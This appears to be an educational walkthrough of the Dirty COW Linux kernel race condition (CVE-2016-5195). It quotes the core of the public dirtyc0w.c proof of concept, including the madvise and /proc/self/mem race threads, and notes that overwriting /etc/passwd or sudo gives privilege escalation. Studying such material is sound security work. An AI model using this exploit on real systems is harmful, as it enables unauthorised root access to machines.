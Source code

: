 # CVE-2016-5195 Dirty cow kernel exploit race condition  

Introduction

The vulnerability “Dirty Cow” came from the “dirty” bit and copy-on-write(COW). Dirty Cow is a vulnerability that occurs in the kernel’s memory subsystem so as to race condition. A race condition vulnerability was found in the way the Linux kernel’s memory subsystem handled the copy-on-write breakage of private read-only memory mappings. It deliberately creates an error during copy-on-write by repeating the processes and it tricks the kernel into actually writing to the underlying file.

Basically it is possible to privilege escalation by writing in to /etc/passwd or sudo binary files.
Background

    Kernel subsystem: The Kernel subsystem is responsible for fairly distributing the CPU time among all the processes running on the system simultaneously.
    Race condition: Race conditions occur when two computer program processes, or threads, attempt to access the same resource at the same time and cause problems in the system. Race conditions are considered a common issue for multithreaded applications.
    Overhead: CPU overhead measures the amount of work a computer’s central processing unit can perform and the percentage of that capacity that’s used by individual computing tasks.
    Copy-on-write: Copy On Write (CoW) is a method in which multiple processes continue to share the same physical memory until a write actually occurs
    Dirty bit: A dirty bit is a binary value used by computer systems to track whether a specific unit of data, such as a cache line or a memory page, has been modified.

Analysis and Exploitation

https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c

    Step1: open the root file in read only mode.

f=open(argv[1],O_RDONLY);
fstat(f,&st);
name=argv[1];

    Step2: mmap maps a file into memory. copy-on-write

Normally, Copy-on-write(COW) occurs when you try to write something to mapped read-only memory. Copy-on-write means, if you were to write to the memory segment, you write to the copy of the memory. Updates to the mapping are not visible to other processes mapping the same file, and are not carried through to the underlying file. It is unspecified whether changes made to the file after the mmap() call are visible in the mapped region.

map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0); 
printf("mmap %zx\n\n",(uintptr_t) map);

You have to use MAP_PRIVATE for copy-on-write mapping. PROT_READ shows the mapped file is only readable. Create a private copy-on-write mapping.

    Step3: Start two threads to create copy-on-write race conditions.

pthread_create(&pth1,NULL,madviseThread,argv[1]);
pthread_create(&pth2,NULL,procselfmemThread,argv[2]);

Both threads will run in parallel. DirtyCow is a race condition vulnerability. It means certain events have to occur in a specific order, that are unlikely to happen under normal conditions.

    Step 3.1: Madvise Thread

First thread uses the syscall madvise(). The madvise system call is used to give advice or directions to the kernel about the address range

void *madviseThread(void *arg)
{
 char *str;
 str=(char*)arg;
 int i,c=0;
 for(i=0;i<100000000;i++)
 {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
 c+=madvise(map,100,MADV_DONTNEED);
 }
 printf("madvise %d\n\n",c);
}

First 100 byte is MADV_DONTNEED which means that it does not expect access in the near future. Subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file.

    Step 3.2: write to proc/self/mem thread (R/O to R/W by proc/self/mem)

void *procselfmemThread(void *arg)
{
 char *str;
 str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
> The in the wild exploit we are aware of doesn't work on Red Hat
> Enterprise Linux 5 and 6 out of the box because on one side of
> the race it writes to /proc/self/mem, but /proc/self/mem is not
> writable on Red Hat Enterprise Linux 5 and 6.
*/
 int f=open("/proc/self/mem",O_RDWR);
 int i,c=0;
 for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
 lseek(f,(uintptr_t) map,SEEK_SET);
 c+=write(f,str,strlen(str));
 }
 printf("procselfmem %d\n\n", c);
}

First, mmap R/O file to memory by MAP_PRIVATE -> R/O map created. And next, open /proc/self/mem file by open() as if it is a file -> R/W file opened

If you access the virtual address offset from R/W file (proc/self/mem), you can request write operation to R/O disk map. Of course, when R/W is requested like that, Copy on Write occurs and writing is done to the private copy rather than to the actual disk, so there is no direct security threat ‘as of yet’.

/proc : the information about the processes

/proc/self : the current process

/proc/self/mem : the memory (r/w permission)

Second, thread proc/self/mem thread opens the file /proc/self/mem and writes to this file in a loop. This is a thread that repeatedly sends write requests for the R/O map to the kernel through /proc/self/mem.

At the point when Copy on Write occurs, the kernel determines that memory write permission is secured and seeks the page. At this time, the private copy page is tossed by madvise(DONT_NEED). If you write to the copied mapped memory, the memory page gets flagged as dirty. But you do not care that the dirty page has not been written.

So this madvise call causes the throwing away of this memory. This means it is not any of the memory caches anymore. The page is searched again, it will create a edgecase that usually does not occur since it determined that write permission has been secured earlier, tricking the kernel into actually writing to the “actual” map page and write permission is not checked.

If a race condition occurs in this order, you can write whatever you want to the read-only file because every time when we try to write, the copy of the memory might have been tossed so we have to reload a new copy from memory so we can write to it.

The patch added a function that checks if the copy-on-write is complete yet, and only then allows writing to it.

https://www.youtube.com/watch?v=kEsshExn7aE&ab_channel=LiveOverflow
